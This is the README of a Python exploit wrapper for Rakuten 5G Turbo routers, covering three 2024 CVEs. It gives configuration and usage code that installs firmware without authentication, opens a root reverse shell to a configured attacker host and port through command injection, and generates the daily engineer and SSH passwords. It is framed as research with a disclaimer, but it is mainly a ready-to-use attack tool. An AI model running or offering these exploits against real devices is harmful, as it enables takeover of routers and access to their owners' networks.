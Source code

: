 
# Rakuten 5G Turbo - Exploit Wrapper API

## Overview

This repository provides a Python API to exploit known vulnerabilities on Rakuten 5G Turbo devices. These vulnerabilities include firmware downgrade without authentication, remote command execution, and information exposure. The project is intended for research purposes to demonstrate potential risks and improve security awareness.

<img src="https://neroteam.com/blog/pages/rakuten-5g-turbo-vulnerability/rakuten-5g-hacked.jpg?m=1722297533" alt="Rakuten 5G Turbo Exploit Wrapper API" width="600">

### CVEs Addressed:
- **[CVE-2024-47865]** - Missing Authentication for Critical Function
- **[CVE-2024-48895]** - OS Command Injection
- **[CVE-2024-52033]** - Exposure of Sensitive Information

## Prerequisites

- Python 3.x
- Required Python packages listed in `requirements.txt`

## Installation

1. Clone the repository:
    ```sh
    git clone https://github.com/0xNslabs/Rakuten5GTurboAPI
    cd Rakuten5GTurboAPI
    ```

2. Install the dependencies:
    ```sh
    pip install -r requirements.txt
    ```

## Usage

### Configuration

Before running any exploit, update the `device` dictionary in `main.py` with the relevant details:

```python
device = {
    "turboIp": "192.168.210.1", # Device IP
    "turboUsername": "admin", # Device username
    "turboPassword": "admin", # Device password
    "host": "192.168.210.157", # Used for reverse shell CVE-2024-48895
    "port": "33666", # Used for reverse shell CVE-2024-48895
    "apn": "rakuten.jp", # Set new APN
    "fwImage": "GA2421@230920_1.3.14.ffw", # CVE-2024-47865
}
```

### Exploiting Vulnerabilities

#### 1. Missing Authentication for Firmware Downgrade (CVE-2024-47865)
Use the `execInstallFw` function to downgrade or install firmware without authentication:
```python
response = turboApi.execInstallFw(device)
print(response)
```

#### 2. Authenticated Remote Command Injection (CVE-2024-48895)
Use the `execRevrsShell` function to execute a reverse shell as root:
```python
response = turboApi.execRevrsShell(device)
print(response)
```

### Bonus Features
- **Generate Engineer Password**: Obtain full web access with `getEngineerPassword` 
- (Note: The password is automatically updated by the device everyday at midnight):
    ```python
    response = turboApi.getEngineerPassword(device)
    print(response)
    ```
- **Generate SSH Password**: Gain SSH access via debug firmware with `getSshPassword` (only working by installing debug firmware, e.g. DG2425@2406171559_DG1.3.18.ffw):
- (Note: The password is automatically updated by the device everyday at midnight):
    ```python
    response = turboApi.getSshPassword(device)
    print(response)
    ```
    
- **Direct APN Configuration**: Update the APN via `setDeviceApn`:
    ```python
    response = turboApi.setDeviceApn(device)
    print(response)
    ```

## Write-Up
https://neroteam.com/blog/rakuten-5g-turbo-vulnerability

## Video Proof of Concept
[![Script PoC CVE-2024-47865 remote code execution](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://youtu.be/tPDwhkLjL7s)

## Disclaimer

This software is provided for educational and research purposes only. Unauthorized access to or exploitation of computer systems is illegal and unethical. The authors and contributors of this software are not liable for any misuse or damages caused by its use.
